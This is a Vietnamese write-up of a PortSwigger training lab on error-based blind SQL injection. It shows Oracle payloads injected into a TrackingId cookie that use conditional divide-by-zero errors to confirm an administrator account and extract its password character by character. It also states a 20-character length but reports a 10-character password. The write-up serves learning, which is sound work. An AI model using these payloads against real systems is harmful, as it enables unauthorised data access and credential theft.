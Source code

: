 

# 🔍 Error-Based SQL Injection – PortSwigger Lab Writeup

Hello mọi người!Chào mừng đến với writeup đầu tiên của mình về khai thác SQL Injection để tìm mật khẩu của một tài khoản.Bài lab này được thực hiện trên nền tảng PortSwigger Web Security Academy.

>⚠️ Nếu bạn không có nền tảng về bảo mật, có thể sẽ hơi khó hiểu. Nhưng bạn có thể coi đây là các bước "hack mật khẩu" trong môi trường mô phỏng.Lưu ý: Đây chỉ là lab để luyện tập, trong thực tế hiện nay các web hiện đại đã bảo mật tốt hơn nhiều  



## Condition error based SQLi

### 1. Vấn đề của Blind SQLi 
Phản hồi của giao diện không thay đổi dù truy vấn SQL có trả về gt hay không. Ứng dụng không hiện thị dữ liệu truy vấn
`OR 1=1 OR 1==2` thì giao diện trả về giông nhau nen khong dùng duoc
### 2. Tạo lỗi có điều kiện ( Conditional Error )
Cố tình gây lỗi trong câu truy vấn SQL nhưng trong DK bạn chèn vào là đúng

Khi lỗi xảy ra thì giao diện có thể hiện thị lỗi

`SELECT * FROM users WHERE username = '$input'`

`' AND (SELECT 1/0 FROM dual WHERE 'a'='a') -- `

### 3. Các kiến thức sử dụngdụng
```sql
CASE 
    WHEN điều_kiện_1 THEN giá_trị_1
    WHEN điều_kiện_2 THEN giá_trị_2
    ...
    ELSE giá_trị_mặc_định
END
```
```sql
CASE biểu_thức
    WHEN giá_trị_1 THEN kết_quả_1
    WHEN giá_trị_2 THEN kết_quả_2
    ...
    ELSE kết_quả_mặc_định
END
```

Note: các nhánh phải cùng kiểu dữ liệu.



Ví dụ:
```sql
SELECT 
  CASE department_id
    WHEN 10 THEN 'HR'
    WHEN 20 THEN 'IT'
    ELSE 'Other'
  END AS department_name
FROM employees;
```


Khi điều kiện where đúng mới có dòng trả về nen mới thực thi select.
Ngược lại sẽ trả về 0 dòng nên không thực thi select.

### 4. Giải lab
Chúng ta sẽ khai thác lỗi ở TrackingID
TrackingId thường là một giá trị cookie được server dùng để:
    Ghi lại hoạt động của người dùng (tracking).
    Liên kết với session hoặc log để phân tích hành vi.
    Tùy biến giao diện hoặc nội dung cho người dùng.

Chúng ta sẽ dùng burpsuite để khai thác lỗ hông này

Let's go!!!

- B1. thử trackingID có bị SQLi không
![alt text](image.png)
![alt text](image-1.png)

chèn `trackingID = abc'` thì bị lỗi còn abc'' thì không bởi vì nó sẽ hiểu là 
trackingID chuỗi thực tế là abc' ( vì '' là cách escape dấu ' )
-> có SQLi

- B2. thử `abc'||( select '' from dual)|| '`  . Nhớ đặt select trong dấu () nhé, nếu không nó sẽ không hiểu là nối chuỗi đâu!
trong oracle '' = NULL trong mysql
![alt text](image-2.png)

-> ta có thể biết hệ thống dung oracle( dual la bảng ảo trong oracle)
và server không filter, có thể chạy lệnh sql hợp lệ

- B3. thử truy vấn 1 bảng không có thật để chứng minh câu sql có được thực thi thực sự trên dữ liệu
backend hay không.

FROM dual: giống như bạn bắn tín hiệu, thấy "server có nghe".
FROM not_a_real_table: giống như bạn hỏi một câu khó, server nói "không có cái đó!" → server thật sự đang hiểu và trả lời SQL,
Để làm chắc chắn hơn có thẻ thực thi Sql vì đây là blind SQLi
![alt text](image-3.png)

- B4. Test điều kiện đúng/sai bằng lõi chia cho 00

`Cookie: TrackingId=WMIqZXutPPFpM9id'||(select CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE ''END from dual) ||'`
![alt text](image-4.png)
`Cookie: TrackingId=WMIqZXutPPFpM9id'||(select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE ''END from dual) ||'`
![alt text](image-5.png)

- B5. Kiểm tra sử tồn tại của administrator trong bảng users (Đề bài cho )

`Cookie: TrackingId=WMIqZXutPPFpM9id'||(select CASE WHEN (1=22) THEN TO_CHAR(1/0) ELSE ''END from users where username = 'administrator') ||'`
![alt text](image-6.png)
`Cookie: TrackingId=WMIqZXutPPFpM9id'||(select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE ''END from users where username = 'administrator') ||'`
![alt text](image-7.png)

- B6. Tính độ dài của password

![alt text](image-8.png) 
![alt text](image-9.png)

password có độ dài bằng 20 kí tự . 

- B7. Brute force password.

Lab cho pw chỉ có kí từ a-z , 0-9 ( simple list). 
Đừng hỏi tại sao lại chỉ dùng list này để dò mật khẩu.

Bước này hãy dùng Intruder để brute nhé. Sau pro hơn minh sẽ dùng python(Hãy đợi writeup tiếp theotheo)
dùng như nào thì tự tìm hiểu nhé!

đây là ví dụ về kí tự đầu tiên
![alt text](image-10.png)

password ="sbeu5dvy8f"




